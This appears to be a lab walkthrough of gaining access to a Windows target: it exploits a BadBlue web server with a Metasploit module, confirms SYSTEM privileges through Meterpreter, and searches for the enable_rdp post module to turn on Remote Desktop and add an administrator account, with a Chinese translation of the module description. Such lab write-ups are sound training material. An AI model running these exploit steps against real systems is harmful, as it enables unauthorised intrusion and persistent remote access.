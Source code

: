 Let's take a look at how we can enable RDP and also utilize our RDP to authenticate and gain access to the target system.

Target IP Address: 10.2.19.254

```
service postgresql start && msfconsole
workspace -a RDP
setg RHOSTS 10.2.19.254
db_nmap -sV 10.2.19.254
```

Because we performed a default port scan that scanned 1,000 of the most common ports, we weren't able to identify 3389 as open, so RDP by default on this system is disabled.

```
search badblue
use exploit/windows/http/badblue_passthru
show options
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

Get user id.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

And we currently have `NT AUTHORITY\SYSTEM` privileges, which are the highest privileges available on a Windows system.

Perform some local system enumeration.

```
meterpreter > sysinfo
Meterpreter : x86/windows
```

In this case, we don't need to upgrade our Meterpreter session to a 64-bit Meterpreter session.

Enable RDP on the target system.

Put this in the background using the `Ctrl+Z` keyboard combination.

```
search enable_rdp
```

[Windows Manage Enable Remote Desktop](https://www.rapid7.com/db/modules/post/windows/manage/enable_rdp/)

This module enables the Remote Desktop Service (RDP). It provides the options to create an account and configure it to be a member of the Local Administrators and Remote Desktop Users group. It can also forward the target's port 3389/tcp.

Windows 管理启用远程桌面

此模块启用远程桌面服务 (RDP)。它提供了创建帐户并将其配置为本地管理员和远程桌面用户组成员的选项。它还可以转发目标的端口 3389/tcp。
